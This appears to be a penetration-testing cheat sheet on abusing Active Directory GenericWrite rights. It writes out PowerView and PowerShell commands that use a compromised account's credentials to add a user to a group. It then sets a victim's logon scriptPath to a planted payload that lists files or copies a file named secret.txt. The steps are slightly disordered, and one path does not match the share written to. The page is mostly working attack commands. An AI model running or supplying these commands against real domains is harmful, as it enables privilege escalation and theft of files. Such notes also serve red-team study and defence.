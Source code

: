 # GenericWrite
## On a `Group` Object `AddMember`

1. **Authenticate as the Compromised User**:  
   - Create a `PSCredential` object for the user with group modification rights:  
     ```powershell
     $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
     $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
     ```  
     *(Replace `DOMAIN\USERNAME` and `<PASSWORD>` with the target user's credentials, e.g., `corp.com\ali`).*  

2. **Verify Current Group Membership**:  
   - Check existing members of the target group (e.g., `Help Desk Level 1`):  
     ```powershell
     Get-DomainGroupMember -Identity "GROUP_NAME" | Select MemberName
     ```  
     or using native AD cmdlets:  
     ```powershell
     Get-ADGroupMember -Identity "GROUP_NAME" | Select-Object Name
     ```  

3. **Add the User to the Group**:  
   - Use PowerView's `Add-DomainGroupMember` (or `Add-ADGroupMember`):  
     ```powershell
     Add-DomainGroupMember -Identity 'GROUP_NAME' -Members 'TARGET_USER' -Credential $Cred -Verbose
     ```  
     *(Replace `GROUP_NAME` and `TARGET_USER` with the group and user to add, e.g., `Help Desk Level 1` and `ali`).*

4. **Confirm Success**:  
   - Re-run the membership check to ensure the user was added:  
     ```powershell
     Get-DomainGroupMember -Identity "GROUP_NAME" | Where-Object { $_.MemberName -eq 'TARGET_USER' }
     ```  

## On a `User` Object `Logonscript` _Set-DomainObject_
**Tools**: PowerView
### Workflow

#### 1. **Create a Payload Script**

Prepare a script to perform the desired action. Save it in a location accessible by the target system.

- **Example 1**: List directory contents
    
    ```cmd
    echo "dir C:\Users\Alice\Desktop > C:\Temp\output.txt" > \\fileserver\share\payload.ps1
    ```
  #### 2. **Set the `scriptPath` Attribute**

Use PowerView or another AD tool to modify the `scriptPath` of the target user object.

    ```powershell
    Set-DomainObject -Identity alice -Set @{ scriptPath = "\\temp\payload.ps1" }
    ```
  
- **Example 2**: Copy a file
    
    ```cmd
    echo "copy C:\Users\Alice\Desktop\secret.txt C:\Temp\copied_secret.txt" > \\fileserver\share\payload.ps1
    ```
**Set the `scriptPath` Attribute**

    ```powershell
    Set-DomainObject -Identity alice -Set @{ scriptPath = "\\temp\payload.ps1" }
    ```
#### 3. **Retrieve the Results**

Check the output location defined in your script:

- Example: `C:\Temp\output.txt`
    
- Example: `C:\Temp\copied_secret.txt`
    
        

